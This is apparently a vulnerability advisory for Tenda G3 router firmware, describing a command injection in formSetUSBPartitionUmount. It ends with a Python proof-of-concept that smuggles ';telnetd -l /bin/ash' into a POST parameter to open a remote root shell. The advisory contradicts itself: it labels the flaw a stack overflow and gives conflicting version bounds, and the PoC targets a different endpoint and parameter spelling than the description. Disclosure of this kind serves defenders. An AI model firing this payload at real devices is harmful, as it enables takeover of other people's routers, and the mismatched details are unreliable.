


# Tenda G3 formSetUSBPartitionUmount
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a command injection in the formSetUSBPartitionUmount function.
### Vulnerability details
Command injection in function formSetUSBPartitionUmount on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetUSBPartitionUmount line 12, it reads in a usbPartionName parameter, and the variable usbPartionName is passed to the doSystemCmd function , which may cause command injection. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/addDhcpRule'
payload = "usbPartitionName=sda1;telnetd -l /bin/ash"

res = requests.post(url=url, data=payload)
print(res.content)
```
